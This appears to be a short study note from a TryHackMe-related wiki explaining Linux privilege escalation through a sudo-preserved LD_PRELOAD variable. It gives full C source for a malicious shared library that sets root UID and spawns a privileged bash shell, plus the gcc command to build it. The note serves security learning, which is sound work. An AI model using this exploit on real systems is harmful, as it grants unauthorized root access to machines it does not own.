 # Exploiting LD_PRELOAD

If LD_PRELOAD is preserved by sudo, then it’s possible to use a malicious dynamic library to gain root access — just run `sudo LD_PRELOAD=/path/to/malicious.so program-runnable-with-nopasswd`. Preserved environment variables are listed by `sudo -l`.

A simple malicious library (perhaps *the* simplest) that can exploit the LD_PRELOAD trick is:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile with:

```bash
gcc -fPIC -shared -nostartfiles \
    -o /path/to/malicious.so /path/to/malicious.c
```

## References

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)
* [Enumerate “sudo” Access](enumerate-sudo-access.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 31, 2021
